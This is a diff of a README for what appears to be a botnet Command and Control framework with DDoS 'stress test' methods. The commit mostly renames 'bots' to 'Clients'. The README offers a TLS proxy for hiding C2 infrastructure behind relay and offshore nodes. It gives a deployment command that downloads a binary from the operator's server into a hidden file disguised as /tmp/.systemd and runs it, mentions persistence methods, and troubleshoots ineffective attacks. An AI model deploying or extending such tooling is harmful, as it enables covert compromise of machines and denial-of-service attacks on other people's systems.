

Before and after one commit to 1Birdo/Gostress-Optimized, a Markdown page: README.md, 2 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -1,6 +1,6 @@
 
 ## Overview
-*This is a lightweight, web-based Command and Control (C2) framework with built-in stress testing capabilities. It allows operators to manage bots, monitor activity, and perform a variety of network stress test methods through a secure, intuitive interface.
+*This is a lightweight, web-based Command and Control C2 with stress testing capabilities using external Devices or Servers. It allows operators to manage Clients, monitor activity, and perform a variety of network stress test methods through a secure interface.
 
 <table>
   <tr>
@@ -15,7 +15,9 @@
 
 ## 🔁 TLS Proxy Module
 
-The TLS Proxy module enables encrypted traffic forwarding between bots and the core C2 server. This acts as a secure intermediary, offering stealth, traffic redirection, and flexible network deployment strategies.
+The TLS Proxy module enables encrypted traffic forwarding between Clients and the C2 server. This acts as a secure Third-party, offering stealth, traffic redirection, and flexible network deployment strategies.
+
+Hopefully to have P2P + load-balancing capabilites Implemented soon
 
 ---
 <table>
@@ -25,9 +27,9 @@ The TLS Proxy module enables encrypted traffic forwarding between bots and the c
 </table>
 
 ### 🌐 Purpose
-The proxy listens for incoming TLS connections from bots and securely forwards traffic to the core C2 server. This provides:
+The proxy listens for incoming TLS connections from Client and securely forwards traffic to the core C2 server. This provides:
 - **Obfuscation** of real C2 infrastructure
-- **Traffic rerouting** through dedicated relay nodes
+- **Traffic rerouting** through dedicated relay / offshore nodes
 - **Flexible deployment** across cloud or on-prem infrastructure
 
 ---
@@ -174,9 +170,9 @@ const (
 
 ## Deployment Options
 
-### Linux Bot Deployment
+### Linux Client Deployment
 ```bash
-curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
+curl http://your-server-ip/Client -o /tmp/.systemd && chmod +x /tmp/.systemd && /tmp/.systemd
 ```
 
 ### Persistence Methods
@@ -188,8 +184,8 @@ curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tm
 
 ## Troubleshooting
 
-### Bots not connecting?
-- Double-check `C2Address` in the bot binary
+### Clients not connecting?
+- Double-check `C2Address` in the Client binary
 - Ensure server ports are open and listening
 - Review firewall or security group settings
 
@@ -200,7 +196,7 @@ curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tm
 
 ### Attacks not effective?
 - Confirm target IP/hostname and port
-- Ensure bots are online
+- Ensure Clients are online
 - Verify method compatibility
 
 ---
@@ -211,7 +207,7 @@ curl http://your-server-ip/bot -o /tmp/.systemd && chmod +x /tmp/.systemd && /tm
 - Use strong, unique passwords for all users
 - Restrict dashboard access (VPN, firewall, etc.)
 - Keep the system and Go packages updated
-- Regularly audit bot activity and logs
+- Regularly audit Clients activity and logs
 
 ---
 
````
Also changed, not shown: other parts of README.md (+18 -24 lines).
